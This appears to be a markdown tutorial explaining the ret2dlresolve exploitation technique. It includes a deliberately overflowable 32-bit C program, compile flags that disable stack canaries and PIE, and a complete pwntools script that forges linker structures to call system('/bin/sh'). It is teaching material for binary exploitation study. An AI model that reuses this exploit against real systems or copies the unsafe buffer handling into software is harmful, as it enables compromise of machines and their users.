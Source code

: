 # ret2dlresolve in a 32-bit 

## 🔧 Setup

### 🔹 Source Code (vulnerable program)

```c
#include <unistd.h>

void vuln(void) {
    char buf[64];
    read(STDIN_FILENO, buf, 200);  // buffer overflow
}

int main(int argc, char** argv) {
    vuln();
}
```

### 🔹 Compile with:

```bash
gcc -m32 -fno-stack-protector -no-pie -o vuln source.c
```

* `-m32`: 32-bit binary
* `-fno-stack-protector`: disables stack canaries
* `-no-pie`: disables PIE (no ASLR for code, fixed base addresses)

---

## 🧠 Vulnerability Overview

* **Buffer overflow** in `vuln()` → we read 200 bytes into a 64-byte buffer.
* Allows us to **control EIP** and pivot to a ROP chain.
* However, **no `system@plt` or `/bin/sh` is available** in the binary or GOT.
* This is where **ret2dlresolve** comes in.

---

## ⚔️ What is ret2dlresolve?

> It's a technique to call **dynamic linker (`ld.so`) resolution manually**, to resolve functions **not yet resolved** at runtime (like `system`), by forging relocation and symbol entries.

---

## 📜 Full Exploit Breakdown

```python
from pwn import *

# Load the ELF binary and prepare context
elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)
```

### 🔹 Step 1: Prepare the dynamic linker resolver

```python
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
```

* `Ret2dlresolvePayload` builds:

  * `.dynstr`: the string table (`"system"`)
  * `.dynsym`: a fake `Elf32_Sym` symbol structure
  * `.rel.plt`: a fake `Elf32_Rel` relocation structure
* All these are placed at `dlresolve.data_addr` (writable memory, e.g., `.bss`)
* Calculates the `reloc_offset` for `ret2dlresolve()`.

---

### 🔹 Step 2: Create ROP Chain

```python
rop.raw('A' * 76)
```

* Fills the buffer (`64 bytes`) + `12 bytes` padding to reach return address (`EIP` overwrite).

```python
rop.read(0, dlresolve.data_addr)
```

* Calls `read(0, dlresolve.data_addr, ...)` to **write the fake structures** into memory.
* `0` → stdin
* `dlresolve.data_addr` → destination memory (like `.bss`)
* This gets triggered when the first stage payload runs.

```python
rop.ret2dlresolve(dlresolve)
```

* Calls a function like `foo@plt` (any function that triggers `resolve()`).
* Dynamic linker uses the **fake relocation** structure and symbol name to resolve `system`.
* Then jumps to it with our provided args (`/bin/sh`).

---

### 🔹 Step 3: Send First Stage

```python
p.sendline(rop.chain())
```

* Sends the **first stage ROP chain**, which:

  1. Overflows the buffer
  2. Calls `read()` to write the fake structures
  3. Triggers `ret2dlresolve()` to resolve and call `system("/bin/sh")`

```python
p.sendline(dlresolve.payload)
```

* Sends the **second stage**: the fake structures for `.rel.plt`, `.dynsym`, `.dynstr`
* These get written to memory by the `read()` we called in stage 1

```python
p.interactive()
```

* You get a shell 🐚

---

## 📦 Memory Layout After Exploit

![result](./img/result.png)
---

## 🧮 How ret2dlresolve Works Internally

1. You call `.plt[0]` with `reloc_offset`.
2. The dynamic linker checks `.rel.plt[reloc_offset]`.
3. It sees the **fake relocation** entry you placed at `.bss`.
4. It uses the index to get a **fake symbol** (Elf32\_Sym).
5. Uses `st_name` to read the string `"system"` from your fake `.dynstr`.
6. Resolves it using the dynamic symbol resolution process (same as lazy binding).
7. Updates the GOT (optionally), then **calls `system("/bin/sh")`**.


you can learn more about this [here](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2dlresolve)

---


